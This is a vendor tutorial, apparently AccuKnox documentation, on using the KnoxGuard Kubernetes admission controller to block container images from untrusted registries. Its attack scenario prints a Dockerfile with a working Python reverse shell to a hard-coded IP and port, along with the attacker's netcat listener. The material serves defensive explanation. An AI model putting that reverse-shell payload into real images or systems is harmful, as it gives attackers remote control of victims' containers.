 ```yaml
---
title: Mitigate Supply Chain Attacks with KnoxGuard
description: Learn how to mitigate supply chain attacks with KnoxGuard by blocking deployments that use images from untrusted registries.
---
```


# Mitigate Supply Chain Attacks with KnoxGuard

As Kubernetes adoption continues to surge, securing your Kubernetes clusters becomes critical. And the Kubernetes security is incomplete without the admission controllers. An admission controller in Kubernetes is a component that intercepts the Kubernetes API requests to validate, modify, or reject them based on defined policies before they are applied to the cluster.

This document showcases the impact of using container images from unknown container registries. The scenario involves a container registry controlled by an attacker, leading to a remote code execution via a supply chain attack. It also outlines how you can secure your Kubernetes cluster from such supply chain attacks.

## Scenario before using the KnoxGuard

A developer deploys an nginx container using this Kuberentes manifest:

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  labels:
    app: nginx
  name: nginx
spec:
  replicas: 1
  selector:
    matchLabels:
      app: nginx
  template:
    metadata:
      labels:
        app: nginx
    spec:
      containers:
      - image: ttl.sh/nginx:24h
        name: nginx
```

At first glance, this Kubernetes manifest doesn't look malicious at all. But if you look closely, its using `ttl.sh/nginx:24h` image to create the container. It's not a standard nginx image from the Docker Hub. In fact this image is controlled by an attacker and it contains the code to get a reverse shell. The developer had made a mistake here and deployed the nginx container using a malicious image from an untrusted registry.

Here is the Dockerfile of that malicious image:

```Dockerfile
# Use the official NGINX image as a base
FROM nginx:latest

# Install Python3 (required for the reverse shell)
RUN apt-get update && apt-get install -y python3 && apt-get clean

# Command to run both the NGINX server and the reverse shell
CMD bash -c "python3 -c 'import socket,os,pty; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"3.110.37.227\",1337)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); pty.spawn(\"/bin/bash\")' & nginx -g 'daemon off;'"
```

You can see that it have a python command that spawns up the reverse shell on the attacker's machine.

The attacker uses the netcat to listen for this reverse shell connection.

```sh
ubuntu@ip-172-31-11-62:~$ nc -lvnp 1337
Listening on 0.0.0.0 1337
```

The attacker immediately gets the reverse shell once the container is deployed.

```sh
> kubectl apply -f deployment.yaml -n demo
deployment.apps/nginx created
```

![image-20241219-085526.png](./images/knoxguard-supply-chain/1.png)

Now the attacker have full access to the container! Attacker can perform network requests from the container, leak your source code, mine cryptocurrencies, or even get access to database credentials from the environment variables!

## Scenario after using KnoxGuard

You can use KnoxGuard to defend against such supply chain attacks. Before installing the KnoxGuard make sure that the Kubernetes cluster is onboarded to the AccuKnox control plane, and all AccuKnox agents are in the running state:

```sh
userx@fedora:~$ kubectl get pods -n accuknox-agents
NAME                                      READY   STATUS    RESTARTS           AGE
agents-operator-d8585d594-55s29           1/1     Running   0                  72d
discovery-engine-59c69ff787-scrrj         4/4     Running   0                  72d
feeder-service-765d8f7d65-d4vq2           1/1     Running   13 (2d21h ago)     4d
policy-enforcement-agent-f5c5f87b-9fw79   1/1     Running   84 (2d21h ago)     40d
shared-informer-agent-77569db588-c944p    1/1     Running   1090 (2m36s ago)   40d
```

After ensuring that agents are in the running state you can install KnoxGuard by the following commands:

```sh
helm repo add kyverno https://kyverno.github.io/kyverno/
helm repo update
helm install kyverno kyverno/kyverno -n kyverno --create-namespace
helm upgrade --install knoxguard oci://public.ecr.aws/k9v9d5v2/knoxguard-chart --version=v0.2.0 -n knoxguard --create-namespace
```

Once the KnoxGuard is installed create a file `policy.yaml` and paste the following content into the file.

```yaml
apiVersion: admission.accuknox.com/v1
kind: AdmissionPolicy
metadata:
  labels:
    app.kubernetes.io/name: admission-controller
  name: use-trusted-regestries
spec:
  registries:
    action: Block
    include:
    - pattern: docker.io/*
      namespace: demo
```

For applying the policy, open up the AccuKnox control plane. Navigate to the runtime protection > policies and click on the create policy button.

![image-20241219-145142.png](./images/knoxguard-supply-chain/2.png)

Select your cluster, upload the policy and click on the save button.

![image-20241219-145538.png](./images/knoxguard-supply-chain/3.png)

It will ask you for a confirmation, click on the active policies checkbox and click on the confirm button.

![image-20241219-145700.png](./images/knoxguard-supply-chain/4.png)

After applying the policy, KnoxGuard will block the deployments that use images from untrusted registries.

![image-20241219-090957.png](./images/knoxguard-supply-chain/5.png)

## Summary

Using untrusted container registries can lead to significant security risks, including remote code execution and unauthorized access. KnoxGuard provides an effective solution by enforcing security policies that block malicious deployments, helping to secure the cluster and prevent supply chain attacks. Implementing KnoxGuard admission controller ensures a more robust and safer Kubernetes environment.
